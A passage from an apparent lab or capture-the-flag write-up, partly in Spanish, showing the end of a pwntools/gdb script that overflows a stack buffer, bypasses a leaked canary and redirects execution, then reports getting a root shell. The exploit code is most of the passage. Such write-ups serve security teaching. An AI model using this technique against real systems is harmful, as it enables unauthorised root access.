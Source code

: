 ```python
#       gdb_process.sendline(f"break *{memory_address_bp}")
#       gdb_process.expect("(gdb)")
#       gdb_process.sendline("continue")
#    else:
#       print("No hay suficientes direcciones de memoria en la salida")

    # construction of the payload
    buffer_size = 72 # offset before overwriting the canary
    buffer_fil = b'S' *buffer_size
    padding = b'A' *8 # padding to align the stack
    #rip = b'P' *8

    payload = flat(
    buffer_fil,
    output_canary_le,
    padding,
    address_factor1_le
    )
    # sending the payload
    gdb_process.expect("Introduce tu nombre: ")
    gdb_process.sendline(payload)
    #gdb_process.expect("(gdb)")
    gdb_process.sendline("continue")
    gdb_process.interact()
    gdb_process.send(b"quit")
    gdb_process.close()

if __name__ == '__main__':
    atack()
```
We move the exploit to Pedro's directory, then we request permissions from the administrator again via email and execute the exploit.

https://github.com/user-attachments/assets/9aea40ac-a48d-4021-bf74-49efbf0bd77c

The exploit worked by getting the bash as root

![image](https://github.com/user-attachments/assets/4c8256bd-24f3-4403-9746-ac8554d760a5)





